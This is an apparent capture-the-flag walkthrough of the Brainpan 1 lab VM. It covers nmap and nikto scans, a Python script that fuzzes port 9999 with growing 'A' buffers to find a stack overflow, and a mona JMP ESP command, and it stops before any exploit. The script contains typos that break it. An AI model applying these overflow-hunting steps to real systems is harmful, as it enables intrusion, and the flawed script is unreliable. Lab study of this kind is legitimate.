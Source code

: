 # Brainpan 1 Walkthrough
Following is the outcome of my hacking handiwork

## 1. Initial Scan

`nmap -sV -sT -v -p- -T4 192.168.56.1/24`

```
Scanning 192.168.56.106 [65535 ports]
Discovered open port 9999/tcp on 192.168.56.106
Completed Connect Scan at 14:46, 2.04s elapsed (65535 total ports)
Initiating Service scan at 14:46
Scanning 1 service on 192.168.57.1
Completed Service scan at 14:46, 6.13s elapsed (1 service on 1 host)
Initiating OS detection (try #1) against 192.168.57.1
NSE: Script scanning 192.168.57.1.
Initiating NSE at 14:46
Completed NSE at 14:46, 0.01s elapsed
Initiating NSE at 14:46
Completed NSE at 14:46, 0.01s elapsed
Nmap scan report for 192.168.57.1
Host is up (0.000064s latency).
Not shown: 65534 closed ports
PORT     STATE SERVICE VERSION
9999/tcp open  abyss?
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port9999-TCP:V=7.80%I=7%D=3/4%Time=5E5FB12A%P=x86_64-pc-linux-gnu%r(NUL
SF:L,298,"_\|\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20_\|\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\n_\|_\|_\|\x20\x20\x20\x20_\|\x20\x20_\|_\|\x20\x20\x20\x20_\|_\|_\|\
SF:x20\x20\x20\x20\x20\x20_\|_\|_\|\x20\x20\x20\x20_\|_\|_\|\x20\x20\x20\x
SF:20\x20\x20_\|_\|_\|\x20\x20_\|_\|_\|\x20\x20\n_\|\x20\x20\x20\x20_\|\x2
SF:0\x20_\|_\|\x20\x20\x20\x20\x20\x20_\|\x20\x20\x20\x20_\|\x20\x20_\|\x2
SF:0\x20_\|\x20\x20\x20\x20_\|\x20\x20_\|\x20\x20\x20\x20_\|\x20\x20_\|\x2
SF:0\x20\x20\x20_\|\x20\x20_\|\x20\x20\x20\x20_\|\n_\|\x20\x20\x20\x20_\|\
SF:x20\x20_\|\x20\x20\x20\x20\x20\x20\x20\x20_\|\x20\x20\x20\x20_\|\x20\x2
SF:0_\|\x20\x20_\|\x20\x20\x20\x20_\|\x20\x20_\|\x20\x20\x20\x20_\|\x20\x2
SF:0_\|\x20\x20\x20\x20_\|\x20\x20_\|\x20\x20\x20\x20_\|\n_\|_\|_\|\x20\x2
SF:0\x20\x20_\|\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20_\|_\|_\|\x20\x20_\
SF:|\x20\x20_\|\x20\x20\x20\x20_\|\x20\x20_\|_\|_\|\x20\x20\x20\x20\x20\x2
SF:0_\|_\|_\|\x20\x20_\|\x20\x20\x20\x20_\|\n\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20_\|\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\n\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20_\|\n\n\[________________________\x20WELCOME\x20TO\x20BRAINPAN\x2
SF:0_________________________\]\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20ENTER\x2
SF:0THE\x20PASSWORD\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\n\n\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20>>\x20");
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6.32
OS details: Linux 2.6.32
Uptime guess: 8.367 days (since Tue Feb 25 05:58:00 2020)
Network Distance: 0 hops
TCP Sequence Prediction: Difficulty=258 (Good luck!)
IP ID Sequence Generation: All zeros
```
![](https://github.com/d15rup7or/Labs/blob/master/Brainpan/img/nmap-scan)

`nikto -h 192.168.56.106`

![](https://raw.githubusercontent.com/d15rup7or/Labs/master/Brainpan/img/nikto.png)

`192.168.56.106:10000/bin/`

Let's download the .exe file and have the look with `strings`

![](https://raw.githubusercontent.com/d15rup7or/Labs/master/Brainpan/img/strings.png)


## 2. Fuzzing

```
import socket

for i in range(30):
  s = socket.socket ( socket.AF_INET, socket.SOCK_STREAM )
  s.connect(("192.168.56.105",9999)
  payloaod = int(i)*("A"*100)
  s.send(payload+"\r\n")
  print "[*] Sending buffer data with " + str(len(str(payload))) + " A's\r\n"
  s.close()
```
Here, the Windows IP address given by DHCP is '192.168.56.105'. Use the script above and see what the program spits out.
It turns out that the overflow occurs with circa 900 A's.

![](https://github.com/d15rup7or/Labs/blob/master/Brainpan/img/sending-A's.png)

Stack addresses EAX EIP ESP

`!mona jump -r ESP`
